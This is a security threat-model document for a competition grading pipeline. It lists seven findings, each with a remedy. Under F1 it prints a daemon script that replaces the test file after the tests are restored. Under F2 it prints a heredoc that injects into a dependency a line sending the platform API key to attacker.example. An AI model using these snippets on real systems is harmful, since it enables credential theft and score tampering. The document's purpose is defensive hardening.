


# Architecture 07 — Security Deep-Dive

A threat model of the **current** grading path, with verified findings from
the code, followed by how the target architecture closes each one. The
findings are reported so the committee can fix them *before* the evolution
work — several are independent of AI and matter for the very next event.

Verification status legend: **Verified** = confirmed by reading the code
and platform semantics; **Likely** = follows from the code but depends on a
configuration value not visible in the repos (e.g. SAS permissions).

## 1. Trust boundaries as built



The boundary that matters: **team-authored code executes with the same
Unix user, filesystem, and network as the grader and the credential-bearing
score-update step.** Everything below follows from that.

## 2. Findings

### F1 — Background processes survive across steps → test replacement (Verified, High)

`bash execute.sh` runs as a step; GitHub Actions does not kill processes a
step leaves behind, and later steps in the same job run on the same VM.
A submission can therefore do:

```bash
# execute.sh — solves nothing, plants a daemon
setsid nohup bash -c '
  while [ ! -f test/index.test.js ] ; do sleep 0.2; done      # wait for restore #1
  m0=$(stat -c %Y test/index.test.js)
  while [ "$(stat -c %Y test/index.test.js)" = "$m0" ]; do sleep 0.2; done  # restore #2 happened
  printf "test(\"ok\",()=>expect(1).toBe(1))\n" > test/index.test.js
' >/dev/null 2>&1 &
```

The pipeline's "restore tests twice" defence (doc 01 §7) assumes mutation
happens *during* `execute.sh`; a daemon mutates *after the second restore
and before jest*. Result: every test passes → `automatically_graded: true`
→ full `max_score`. The daemon is invisible in the step's own log.

**Fix (immediate, no redesign):** run the script in a process group with a
hard wall and kill the group, *and* run it in a throwaway container:

```yaml
- name: Execute answer script (isolated)
  run: |
    docker run --rm --name exec-$GITHUB_RUN_ID \
      --network none --pids-limit 256 --memory 2g --cpus 2 \
      --user 1000:1000 --read-only --tmpfs /tmp \
      -v "$PWD/submission:/work" -w /work \
      bashaway/runner:22.04@sha256:<pinned> \
      timeout --signal=KILL 240 bash execute.sh
```

`--rm` guarantees no process outlives the step. (`--network none` is right
for transform/golf challenges; infra challenges that legitimately need
Docker-in-Docker get a dedicated runner image with an allow-listed egress
gateway — doc 05 §2.)

### F2 — Runner `node_modules` is writable by the script → API-key exfiltration (Verified, Critical)

`execute.sh` runs with cwd `submission/` inside the scorekeeper checkout.
Only `src/` is restored (`git checkout $SHA -- src && git clean -fd src`);
`../node_modules` — installed by `pnpm install --prod` for the
scorekeeper's *own* scripts — is not. The final step runs
`node src/index.js --script update-score` with
`BASHAWAY_SERVER_API_KEY` in its environment and requires
`@sliit-foss/service-connector`, `dotenv`, `commander` from that
`node_modules`. So:

```bash
# execute.sh (in addition to a genuinely passing solution)
cat >> ../node_modules/dotenv/lib/main.js <<'JS'
require('https').get('https://attacker.example/?k='+encodeURIComponent(process.env.BASHAWAY_SERVER_API_KEY)+'&u='+encodeURIComponent(process.env.BASHAWAY_SERVER_URL));
JS
```

Preconditions: the submission must also pass all tests (so the update step
runs) — trivial on any easy challenge. Egress is unrestricted. Combined with
F3 the exfiltrated key is a full platform compromise.

**Fix:** F1's container isolation removes filesystem access to the checkout
entirely. Defence in depth: move `update-score` to a **separate job** that
never shares a VM with the execution job (pass the result via job outputs /
artifacts), and reinstall or verify runner deps (`pnpm install
--frozen-lockfile` + `git status --porcelain` must be empty) before any
credentialed step.

### F3 — `x-api-key` is a global auth + role bypass (Verified, Critical when combined)

`middleware/auth.js`:

```js
export const protect = asyncHandler(async (req) => {
  if (req.headers['x-api-key'] === process.env.API_ACCESS_KEY) return;   // no user, no role
  ...
export const roleProtect = (roles = []) => asyncHandler((req) => {
  if (req.headers['x-api-key'] === process.env.API_ACCESS_KEY) return;   // bypasses ADMIN checks
```

The key intended for "scorekeeper marks a submission graded" also passes
`roleProtect([ROLE.ADMIN])` on: question create/update/delete (including
`codebase_url` — i.e. swapping the test suite of any question), settings
(deadlines, freeze), user updates (`eliminated`, `is_active`), and
`/storage/sign?upload=true`, which returns the **challenge-container upload
SAS token**. Holder of the key can grade themselves, disable rivals'
questions, or replace `question.zip` so the restored tests are their own.

Note also the grade route already accepts a numeric `score` under
`x-api-key` (`submissionUpdateSchema` + `gradeSubmission` clamp); the
scorekeeper merely doesn't send one. ADR-0002 has been corrected on this
point.

**Fix:** a dedicated service identity. Minimal version: a second env var
`SCOREKEEPER_API_KEY` accepted **only** by `PATCH /api/submissions/:id`, and
`protect`'s bypass removed everywhere else. Better: HMAC-signed grading
callbacks (`submission_id`, `score`, `run_id`, timestamp) with a key that
can *only* produce grade events, and the backend verifying the referenced
Actions run exists and belongs to that submission before accepting.

### F4 — Container-level SAS tokens shipped in the browser bundle (Verified; scope Likely)

`bashaway-event-portal/src/services/azure.js` builds a `BlobServiceClient`
from `VITE_AZURE_UPLOAD_SAS_TOKEN` (submissions container, write) and
`utils/downloadFile` uses `VITE_AZURE_DOWNLOAD_SAS_TOKEN` (questions
container, read). Anyone with the bundle can:

- write arbitrary blobs anywhere in the submissions container, including
  paths under **another team's folder** (`${teamName}/${iso}/${file}`);
  the backend's only origin check is that the *link* the team submits
  starts with its own folder — it does not verify who uploaded the blob;
- overwrite a victim's blob **after** they submitted but **before** the
  runner downloads it (the blob is fetched at grading time, not pinned).
  The ms-precision timestamp in the path makes the race hard but not
  impossible if the SAS carries `l` (list) permission (**Likely**: unknown
  from repos);
- consume unbounded storage (no size or count limit is enforced anywhere).

**Fix:** issue per-upload, per-team **user-delegation SAS** server-side
(`POST /api/storage/upload-url` → 5-minute token scoped to
`{team}/{submission_id}/submission.zip`, write-only, `c` not `l`), and pin
what was graded: the backend records the blob's `ETag`/`Content-MD5` at
submission time and the runner verifies it after download (`If-Match`).
The `AZURE_SOLUTION_UPLOAD_STORAGE_ACCOUNT` prefix check stays as a second
layer.

### F5 — Unrestricted egress + no per-script timeout (Verified, Medium)

`execute.sh` has the runner's full internet and the only limit is the
5-minute *job* timeout. Consequences: F2's exfiltration channel; "phone a
friend" during the online round (a script that fetches a solution generated
elsewhere, though that only matters if AI/help were banned — moot after
ADR-0001); crypto-mining or DoS from GitHub IP space under the org's name.

**Fix:** F1's container with `--network none` by default; the egress
gateway allow-list (doc 05) for challenges that need packages or services.

### F6 — Grading as a denial-of-service lever (Verified, Medium)

Every `POST /api/submissions` fires one Actions job of up to 5 minutes.
The only limits are the global rate limiter (600 req/min *per IP*) and the
deadline. One team can dispatch hundreds of jobs in minutes, exhausting
the org's Actions concurrency and minutes for everyone — accidentally
(a retry loop) or deliberately. The 2024 archive shows 360 *successful*
solutions; the unsuccessful attempt volume is unrecorded and unbounded.

**Fix:** the per-question cooldown from ADR-0006 (10 min), a per-team
concurrent-grading cap of 1 (queue in the backend; dispatch the next when
the PATCH arrives), and the resubmission penalty as the economic brake.

### F7 — Information leaks via the dispatch payload (Verified, Low)

`run-name` in `test-prod.yml` interpolates `question_name` and the team
`name` into the Actions run title, and the payload carries the team
`email`. If the scorekeeper repo is public (it is, on GitHub), run titles
are visible to anyone — including *which team is currently attempting
which question and how often*, which is competitive intelligence during a
live round. **Fix:** private scorekeeper repo or opaque run names
(`submission_id` only).

## 3. Attack chain (F1/F2 → F3)



Eleven steps, no exploit beyond shell and HTTP, all from a single
submission. This is why F1–F3 are rated as they are.

## 4. STRIDE summary — current vs target

| Threat | Current exposure | Target-state control | Doc |
|---|---|---|---|
| **S**poofing (who uploaded / who graded) | bundled SAS; global-bypass key | per-upload delegated SAS; single-purpose signed grading callback | this doc §2 F3/F4 |
| **T**ampering (tests, deps, blobs) | daemon after 2nd restore; writable `node_modules`; overwritable blobs | container `--rm`; separate credentialed job; ETag pinning | F1/F2/F4 |
| **R**epudiation | no run journal beyond Actions log; opaque run names absent | `test_report.detail_url`, journaled agent runs, immutable `raw_score` | doc 02 §5, doc 03 §8 |
| **I**nformation disclosure | public run titles; email in payload | opaque run names; private runner repo | F7 |
| **D**enial of service | unlimited dispatches per team | cooldown, per-team concurrency 1, penalty | F6, ADR-0006 |
| **E**levation of privilege | key → admin everywhere | scoped service identity; proxy child keys die with the run | F3, doc 04/05 |

## 5. Ordering recommendation

These fixes are independent of the evolution and small; do them first,
in this order, ideally before the next event of any format:

1. **F1+F5**: container-isolate `execute.sh` (one workflow step change,
   one runner image). Kills the daemon class and the egress class at once.
2. **F3**: split the scorekeeper identity from the admin bypass (two env
   vars, three lines in `auth.js`, one route condition).
3. **F2**: move `update-score` to its own job with a clean checkout.
4. **F6**: cooldown + concurrency cap in `createSubmission`.
5. **F4**: server-issued delegated upload SAS + ETag pinning (portal +
   backend change; the largest of the five).
6. **F7**: opaque run names.

Everything in ADR-0003/0005 (proxy child keys, sandbox) then builds on a
runner that is already safe to hand untrusted code.
